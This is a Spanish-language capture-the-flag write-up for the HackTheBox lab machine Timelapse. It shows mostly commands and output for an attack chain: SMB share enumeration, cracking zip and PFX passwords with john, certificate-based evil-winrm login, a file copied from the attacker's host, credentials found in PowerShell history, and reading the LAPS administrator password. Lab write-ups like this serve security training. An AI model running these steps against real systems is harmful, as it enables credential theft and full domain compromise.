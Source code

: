# 10.10.11.152 - Timelpase
![Timelapse](https://user-images.githubusercontent.com/96772264/205365063-9ef89d8b-1b63-4087-9ae1-bdd579322a6a.png)

------------------------
# Part 1: Enumeración

Puertos: 53(dns),88(kerberos),135(rpc),139(ldap),445(smb),464,593,636,3269,3268,5986(winrm),9389:  
- Nombre: timelapse.htb  

------------------------
# Part 2: Accediendo a smb

```console
└─$ smbmap -H 10.10.11.152 -u 'test'
	IPC$                                              	READ ONLY	Remote IPC
	Shares                                            	READ ONLY	
└─$ smbmap -H 10.10.11.152 -u 'test' -r "Shares"
	dr--r--r--                0 Mon Oct 25 21:40:06 2021	Dev
	dr--r--r--                0 Mon Oct 25 17:55:14 2021	HelpDesk
└─$ smbmap -H 10.10.11.152 -u 'test' -r "Shares/Dev"
	fr--r--r--             2611 Mon Oct 25 23:05:30 2021	winrm_backup.zip
└─$ smbmap -H 10.10.11.152 -u 'test' --download "Shares/Dev/winrm_backup.zip"

└─$ unzip 10.10.11.152-Shares_Dev_winrm_backup.zip
[10.10.11.152-Shares_Dev_winrm_backup.zip] legacyy_dev_auth.pfx password:
└─$ zip2john 10.10.11.152-Shares_Dev_winrm_backup.zip > hash
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
supremelegacy    (10.10.11.152-Shares_Dev_winrm_backup.zip/legacyy_dev_auth.pfx)
└─$ unzip winrm_backup.zip
[10.10.11.152-Shares_Dev_winrm_backup.zip] legacyy_dev_auth.pfx password: supremelegacy
```

------------------------
# Part 3: Crackenado archivos

Los archivos pfx son archivos ilegibles (porque están cifrados) pero si se les pasan a openssl se pueden crear certificados y llaves.   
```console
└─$ openssl pkcs12 -in ./legacyy_dev_auth.pfx -nocerts -out llave_legacy.key
Enter Import Password:
└─$ /usr/share/john/pfx2john.py ./legacyy_dev_auth.pfx > hash
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
thuglegacy       (legacyy_dev_auth.pfx)
└─$ openssl pkcs12 -in ./legacyy_dev_auth.pfx -nocerts -out llave_legacy.key
# Tanto como password como PEM pass que nos piden ponemos "thuglegacy"
└─$ openssl pkcs12 -in ./legacyy_dev_auth.pfx -nokeys -out certificado.pem
```
```
└─$ evil-winrm -i 10.10.11.152 -k llave_legacy.key -c certificado.pem -S
*Evil-WinRM* PS C:\Users\legacyy\Documents>

*Evil-WinRM* PS C:\Users\legacyy\Documents> copy \\10.10.14.16\carpeta\enumeracion_windows.bat
```
- Vemos que en el historial de comandos en Powershell hay creds svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV

------------------------
# Part 4: Escalando privilegios: LAPS_READERS

```console
└─$ evil-winrm -i 10.10.11.152 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
```
- Nuestro usuario está en LAPS_READERS (usaurios especiales que pueden leer la contraseña del admin "Solución de contraseñas de administrador local")
```console
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> Get-ADComputer DC01 -property 'ms-mcs-admpwd'
ms-mcs-admpwd     : EB71J5m-1V-18@%z#w9&4L3x

└─$ evil-winrm -i 10.10.11.152 -u 'administrator' -p 'EB71J5m-1V-18@%z#w9&4L3x' -S
*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami
timelapse\administrator
```
